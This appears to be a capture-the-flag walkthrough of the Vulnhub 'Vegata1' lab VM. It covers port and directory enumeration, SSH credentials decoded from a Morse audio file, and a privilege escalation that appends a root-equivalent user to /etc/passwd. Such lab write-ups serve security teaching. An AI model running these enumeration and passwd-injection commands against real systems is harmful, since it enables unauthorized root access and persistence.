







# Vulnhub: Vegata1

## Reconnaissance & Enumeration

The first step is to identify open ports and services running on the target machine using nmap.

Command: `nmap -sV -sC -p- 192.168.51.73`
Open Ports:
+ Port 22/tcp: SSH (OpenSSH 7.9p1 Debian 10+deb10u2).
+ Port 80/tcp: HTTP (Apache httpd 2.4.38)

---

## Web Directory Discovery

Since a web server is running on port 80, we use gobuster to find hidden directories and files.
Command: `gobuster dir -u http://192.168.51.73/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt`

Discovered Directories:

+ /img (Status: 301)
+ /image (Status: 301)
+ /admin (Status: 301)
+ /bulma (Status: 301)

---

## Extracting the Hidden Clue

Navigating to the /bulma directory reveals an index containing an audio file: hahahaha.wav.
By analyzing this file with an International Morse Decoder, we successfully decoded the hidden message containing user credentials.

  Encoded Message: `USER : TRUNKS PASSWORD : US3R(S IN DOLLARS SYMBOL)`

## Initial Access via SSH

With the credentials found in the Morse code, we can log into the machine as the user trunks.

+ Command:  `ssh trunks@192.168.51.73`
+ Password: `u$3r`

---

## Privilege Escalation to Root

After gaining access, we check the user's command history to find a path for local privilege escalation.

Observation: The history shows a `perl` command used to generate a password hash and an attempt to append a new root-level user to `/etc/passwd`.
Exploit: We replicate the steps found in the history to create a root-equivalent user named Tom.

Command: `echo "Tom:ad7t5uIalqMws:0:0:User_like_root:/root:/bin/bash" >> /etc/passwd`
Switching Users: Using the password `Password@973` (from the perl crypt function), we switch to the new user.

Command: `su Tom`

---

## Conclusion

After switching to user Tom, we verify our identity:

Command: `whoami`
Result: `root`